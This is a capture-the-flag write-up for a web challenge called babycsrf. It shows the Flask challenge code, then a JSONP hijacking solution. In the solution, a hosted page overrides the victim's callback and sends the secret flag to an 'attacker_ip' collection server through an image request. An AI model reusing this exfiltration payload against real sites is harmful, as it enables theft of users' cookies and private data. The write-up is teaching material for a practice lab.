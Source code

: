 # babycsrf (Web)

**Description**

*"JSONP is a old pattern for getting data into JS, but I heard it's insecure because an attacker can specify code instead of a function name. I solved this problem by not letting you change the name.
For this challenge you will need to submit a URL to the admin bot (a program that runs a browser and directs it to visit your URL, simulating a real person clicking your link). I recommend learning how to use ngrok if you don't know how to expose local solutions to the internet - I've also provided a template server using Python and Flask for your solution."*

**Challenge Code: chal.py**

```python
from flask import Flask, request

app = Flask(__name__)

with open("home.html") as home:
    HOME_PAGE = home.read()

@app.route("/")
def home():
    return HOME_PAGE

@app.route("/api")
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"

app.run(port=12345)
```

**Challenge Code: home.html**
```html
<!DOCTYPE html>
<html>
    <body>
        <h4>Welcome to my home page!</h4>
        Message of the day: <span id="message">(loading...)</span>
        <script>
        window.setMessage = (m) => {
         document.getElementById("message").innerText = m;
}
    window.onload = () => {
    s = document.createElement("script");
    s.src = "/api";
    document.body.appendChild(s);
}
        </script>
    </body>
</html>
```

**Solution**

The challenge provides a JSONP API endpoint.

```python
@app.route("/api")
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"
```

I read up on JSONP and learned that it is dangerous because it is vulnerable to CSRF attacks and can be used to bypass the browser's SOP.
A page with malicious code can override functions of the victim.
To get the flag I started two python webservers.
The first one which provides the malicious code and whose URL I give to the admin bot and another one which receives the flag via GET request.

**1.** `$python3 -m http.server 1234` - Server with our malicious code.

```html
<script>
                    var target="http://attacker_ip:9876/catch";
                    function setMessage(o){
                    var ref = o;
                        var inner = function() {
                            var response = "";

                        for(var x in ref ) {
                           response += ref[x] + "";
                        }
                        new Image().src=target +escape(response);
                    };
                    setTimeout(inner,100);
                    }
                </script>
                <script src="https://babycsrf-web.chal.irisc.tf/api">
</script>
```

**2.** `$python3 -m http.server 9876` - Server that receives our flag.

Now we give the admin-bot the URL of our first server and get our flag in the GET request on the second server.

`GET /catchirisctf%7Bjsonp_is_never_the_answer%7D HTTP/1.1" 404 -`

`isctf{jsonp_is_never_the_answer}`


